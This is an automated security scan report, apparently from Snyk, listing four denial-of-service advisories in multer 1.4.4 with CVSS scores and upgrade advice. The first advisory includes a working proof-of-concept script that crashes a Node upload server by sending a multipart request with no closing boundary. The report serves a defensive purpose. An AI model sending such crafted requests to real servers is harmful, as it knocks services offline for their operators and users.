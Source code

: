 # Security Vulnerability Analysis Report

**Project:** denukedissanayake/ai-bug-fix
**Scan Date:** Wed Oct 15 14:10:31 UTC 2025
**Total High/Critical Vulnerabilities:** 4

## Detected Vulnerabilities

### Uncaught Exception (HIGH)
  
  **Package:** multer@1.4.4
  **CVE ID:** SNYK-JS-MULTER-10185673
  **CVSS Score:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H/E:P
  **Current Version:** 1.4.4
  **Fixed In:** No direct fix available
  **Upgradable:** true
  **Patchable:** false
  **Dependency Path:** vulnerable-react-app@1.0.0 → multer@1.4.4
  
  **Description:** ## Overview

Affected versions of this package are vulnerable to Uncaught Exception due to an `error` event thrown by `busboy`. An attacker can cause a full nodejs application to crash by sending a specially crafted multi-part upload request.
## PoC
```javascript
const express = require('express')
const multer  = require('multer')
const http  = require('http')
const upload = multer({ dest: 'uploads/' })
const port = 8888

const app = express()

app.post('/upload', upload.single('file'), function (req, res) {
  res.send({})
})

app.listen(port, () => {
  console.log(`Listening on port ${port}`)

  const boundary = 'AaB03x'
  const body = [
    '--' + boundary,
    'Content-Disposition: form-data; name="file"; filename="test.txt"',
    'Content-Type: text/plain',
    '',
    'test without end boundary'
  ].join('\r\n')
  const options = {
    hostname: 'localhost',
    port,
    path: '/upload',
    method: 'POST',
    headers: {
      'content-type': 'multipart/form-data; boundary=' + boundary,
      'content-length': body.length,
    }
  }
  const req = http.request(options, (res) => {
    console.log(res.statusCode)
  })
  req.on('error', (err) => {
    console.error(err)
  })
  req.write(body)
  req.end()
})
```
## Remediation
Upgrade `multer` to version 2.0.0 or higher.
## References
- [GitHub Commit](https://github.com/expressjs/multer/commit/2c8505f207d923dd8de13a9f93a4563e59933665)
- [GitHub Issue](https://github.com/expressjs/multer/issues/1176)

  
  **References:**
  - {"url":"https://github.com/expressjs/multer/commit/2c8505f207d923dd8de13a9f93a4563e59933665","title":"GitHub Commit"}
- {"url":"https://github.com/expressjs/multer/issues/1176","title":"GitHub Issue"}
  
  ---
  
### Missing Release of Memory after Effective Lifetime (HIGH)
  
  **Package:** multer@1.4.4
  **CVE ID:** SNYK-JS-MULTER-10185675
  **CVSS Score:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
  **Current Version:** 1.4.4
  **Fixed In:** No direct fix available
  **Upgradable:** true
  **Patchable:** false
  **Dependency Path:** vulnerable-react-app@1.0.0 → multer@1.4.4
  
  **Description:** ## Overview

Affected versions of this package are vulnerable to Missing Release of Memory after Effective Lifetime due to improper handling of error events in HTTP request streams, which fails to close the internal `busboy` stream. An attacker can cause a denial of service by repeatedly triggering errors in file upload streams, leading to resource exhaustion and memory leaks.

**Note:**

This is only exploitable if the server is handling file uploads.
## Remediation
Upgrade `multer` to version 2.0.0 or higher.
## References
- [GitHub Commit](https://github.com/expressjs/multer/commit/2c8505f207d923dd8de13a9f93a4563e59933665)
- [GitHub PR](https://github.com/expressjs/multer/pull/1120)

  
  **References:**
  - {"url":"https://github.com/expressjs/multer/commit/2c8505f207d923dd8de13a9f93a4563e59933665","title":"GitHub Commit"}
- {"url":"https://github.com/expressjs/multer/pull/1120","title":"GitHub PR"}
  
  ---
  
### Uncaught Exception (CRITICAL)
  
  **Package:** multer@1.4.4
  **CVE ID:** SNYK-JS-MULTER-10299078
  **CVSS Score:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H
  **Current Version:** 1.4.4
  **Fixed In:** No direct fix available
  **Upgradable:** true
  **Patchable:** false
  **Dependency Path:** vulnerable-react-app@1.0.0 → multer@1.4.4
  
  **Description:** ## Overview

Affected versions of this package are vulnerable to Uncaught Exception in `makeMiddleware`, when processing a file upload request. An attacker can cause the application to crash by sending a request with a field name containing an empty string.
## Remediation
Upgrade `multer` to version 2.0.1 or higher.
## References
- [GitHub Commit](https://github.com/expressjs/multer/commit/35a3272b611945155e046dd5cef11088587635e9)
- [GitHub Issue](https://github.com/expressjs/multer/issues/1233)
- [GitHub PR](https://github.com/expressjs/multer/pull/1256)

  
  **References:**
  - {"url":"https://github.com/expressjs/multer/commit/35a3272b611945155e046dd5cef11088587635e9","title":"GitHub Commit"}
- {"url":"https://github.com/expressjs/multer/issues/1233","title":"GitHub Issue"}
- {"url":"https://github.com/expressjs/multer/pull/1256","title":"GitHub PR"}
  
  ---
  
### Uncaught Exception (HIGH)
  
  **Package:** multer@1.4.4
  **CVE ID:** SNYK-JS-MULTER-10773732
  **CVSS Score:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
  **Current Version:** 1.4.4
  **Fixed In:** No direct fix available
  **Upgradable:** true
  **Patchable:** false
  **Dependency Path:** vulnerable-react-app@1.0.0 → multer@1.4.4
  
  **Description:** ## Overview

Affected versions of this package are vulnerable to Uncaught Exception due to improper handling of multipart requests. An attacker can cause the application to crash by sending a specially crafted malformed multi-part upload request that triggers an unhandled exception.
## Remediation
Upgrade `multer` to version 2.0.2 or higher.
## References
- [GitHub Commit](https://github.com/expressjs/multer/commit/adfeaf669f0e7fe953eab191a762164a452d143b)
- [OpenJS Advisories](https://cna.openjsf.org/security-advisories.html)
- [Red Hat Bugzilla Bug](https://bugzilla.redhat.com/show_bug.cgi?id=2381726)

  
  **References:**
  - {"url":"https://github.com/expressjs/multer/commit/adfeaf669f0e7fe953eab191a762164a452d143b","title":"GitHub Commit"}
- {"url":"https://cna.openjsf.org/security-advisories.html","title":"OpenJS Advisories"}
- {"url":"https://bugzilla.redhat.com/show_bug.cgi?id=2381726","title":"Red Hat Bugzilla Bug"}
  
  ---
  
